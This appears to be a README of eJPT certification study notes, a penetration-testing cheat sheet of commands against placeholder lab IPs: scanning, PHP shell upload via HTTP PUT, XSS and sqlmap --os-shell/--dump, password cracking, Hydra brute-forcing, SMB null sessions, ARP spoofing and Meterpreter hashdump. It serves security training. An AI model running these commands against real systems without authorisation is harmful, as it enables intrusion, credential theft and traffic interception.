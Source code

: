 ## eJPT Notes
**This notes will gide you through all the commands and tools which are given in the official eJPT material. Make sure to replace the ip addresses and port numbers when you use it**

------------
**Routing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ip route add ROUTETO via ROUTEFROM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**whois**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whois site.com
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Ping Sweep**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fping -a -g 10.10.10.0/24 2>/dev/null
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sn 10.10.10.0/24
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Nmap Scans**
**OS Detection**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -Pn -O 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Full)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -p- 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (UDP Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sU -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Banner Grabbing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**OpenSSL for HTTPS services**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Httprint**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**HTTP Verbs**
GET, POST, HEAD, PUT, DELETE, OPTIONS
Use the OPTIONS verb to see what other verbs are available
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc 10.10.10.10 80
OPTIONS / HTPP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
wc -m shell.php
x shell.php


PUT /shell.php
Content-type: text/html
Content-length: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Directory and File Scanning**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirsearch.py -u http://10.10.10.10 -e *
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirb http://10.10.10.10/ -u username:pass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Advanced Google Searches**
`site:`
`intitle:`
`inurl:`
`filetype:`
`AND, OR, &, |, -`

------------


**Cross Site Scripting (XSS)**
Steps:
1. Find a reflection point
2. Test with `<i>` tag
3. Test with HTML/JavaScript code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<script>alert(1)</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Reflected XSS:**
Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
**Persistent XSS:**
Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

------------


**SQLMap**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --os-shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --dump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------

**Password Attacks**
Unshadow
This prepares a file for use with John the Ripper

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
unshadow passwd shadow > unshadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Hash Cracking**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john -wordlist /path/to/wordlist -users=users.txt hashfile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Network Attacks**
**Brute Forcing with Hydra**
replace ‘ssh’ with any relevant service

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt telnet://10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Windows Shares Using Null sessions**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmblookup -A 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**List shares**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L //10.10.10.10 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Mount share:**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient //10.10.10.10/share -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
enum4linux -a 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**ARP spoofing**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 1 > /proc/sys/net/ipv4/ip_forward
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Metasploit**
Basic Metasploit Commands

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Meterpreter**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
background

sessions -l

sessions -i 1

sysinfo, ifconfig, route, getuid

getsystem (privesc)

bypassuac

download x /root/

upload x C:\\Windows

shell

use post/windows/gather/hashdump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


